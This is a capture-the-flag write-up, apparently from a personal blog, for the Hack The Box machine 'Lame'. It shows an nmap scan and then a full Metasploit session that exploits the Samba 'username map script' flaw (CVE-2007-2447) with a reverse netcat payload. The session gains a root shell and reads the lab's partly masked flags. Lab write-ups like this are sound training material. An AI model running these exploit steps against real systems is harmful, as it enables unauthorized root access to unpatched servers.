


---
title: "HTB: LAME"
author: "v3l1d"
date: "2024-08-04"
---  


### Port Scan

```shell
Nmap 7.94SVN scan initiated Sat Aug 10 08:35:19 2024 as: nmap -sC -sV -A -T4 -Pn -o scan 10.10.10.3
Nmap scan report for 10.10.10.3
Host is up (0.15s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.185
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Anonymous connection FTP but nothing there

### CVE-2007-2447

Looking online i found this vulnerability for this version of smb


```shell
┌──(kali㉿kali)-[~/HTB/Lame]
└─$ msfconsole                                                                      
msf6 > search smb 3.0.20
[-] No results from search
msf6 > smb 3.0.20
[-] Unknown command: smb. Run the help command for more details.                                                                                                 
msf6 > search samba 3.0                                                                                                                                          
                                                                                                                                                                 
Matching Modules                                                                                                                                                 
================                                                                                                                                                                                                                                                                                                 
   #   Name                                                   Disclosure Date  Rank       Check  Description                                                     
   -   ----                                                   ---------------  ----       -----  -----------
   0   exploit/multi/samba/usermap_script                     2007-05-14       excellent  No     Samba "username map script" Command Execution
   1   exploit/linux/samba/chain_reply                        2010-06-16       good       No     Samba chain_reply Memory Corruption (Linux x86)
   2     \_ target: Linux (Debian5 3.2.5-4lenny6)             .                .          .      .
   3     \_ target: Debugging Target                          .                .          .      .
   4   exploit/linux/samba/lsa_transnames_heap                2007-05-14       good       Yes    Samba lsa_io_trans_names Heap Overflow
   5     \_ target: Linux vsyscall                            .                .          .      .
   6     \_ target: Linux Heap Brute Force (Debian/Ubuntu)    .                .          .      .
   7     \_ target: Linux Heap Brute Force (Gentoo)           .                .          .      .
   8     \_ target: Linux Heap Brute Force (Mandriva)         .                .          .      .
   9     \_ target: Linux Heap Brute Force (RHEL/CentOS)      .                .          .      .
   10    \_ target: Linux Heap Brute Force (SUSE)             .                .          .      .
   11    \_ target: Linux Heap Brute Force (Slackware)        .                .          .      .
   12    \_ target: Linux Heap Brute Force (OpenWRT MIPS)     .                .          .      .
   13    \_ target: DEBUG                                     .                .          .      .
   14  exploit/osx/samba/lsa_transnames_heap                  2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow
   15    \_ target: Automatic                                 .                .          .      .
   16    \_ target: Mac OS X 10.4.x x86 Samba 3.0.10          .                .          .      .
   17    \_ target: Mac OS X 10.4.x PPC Samba 3.0.10          .                .          .      .
   18    \_ target: DEBUG                                     .                .          .      .
   19  exploit/solaris/samba/lsa_transnames_heap              2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow
   20    \_ target: Solaris 8/9/10 x86 Samba 3.0.21-3.0.24    .                .          .      .
   21    \_ target: Solaris 8/9/10 SPARC Samba 3.0.21-3.0.24  .                .          .      .
   22    \_ target: DEBUG                                     .                .          .      .

Interact with a module by name or index. For example info 22, use 22 or use exploit/solaris/samba/lsa_transnames_heap
After interacting with a module you can manually set a TARGET with set TARGET 'DEBUG'
msf6 > use exploit/multi/samba/usermap_script 
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/samba/usermap_script) > show options
Module options (exploit/multi/samba/usermap_script):
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    139              yes       The target port (TCP)
Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.163.129  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
msf6 exploit(multi/samba/usermap_script) > set LHOST 10.10.14.185
LHOST => 10.10.14.185
msf6 exploit(multi/samba/usermap_script) > set LPORT 9091
LPORT => 9091
msf6 exploit(multi/samba/usermap_script) > exploit
[-] Msf::OptionValidateError One or more options failed to validate: RHOSTS.
msf6 exploit(multi/samba/usermap_script) > set RHOST 10.10.10.3
RHOST => 10.10.10.3
msf6 exploit(multi/samba/usermap_script) > set RPORT 139
RPORT => 139
msf6 exploit(multi/samba/usermap_script) > exploit
[*] Started reverse TCP handler on 10.10.14.185:9091 
[*] Command shell session 1 opened (10.10.14.185:9091 -> 10.10.10.3:47888) at 2024-08-10 09:35:50 -0400

whoami
root
cd /root
ls
Desktop
reset_logs.sh
root.txt
vnc.log
cat root.txt
6118f881631**********
```





### Flags

```shell
root:6118f8816315**********
user:15fd56e82fde**********

```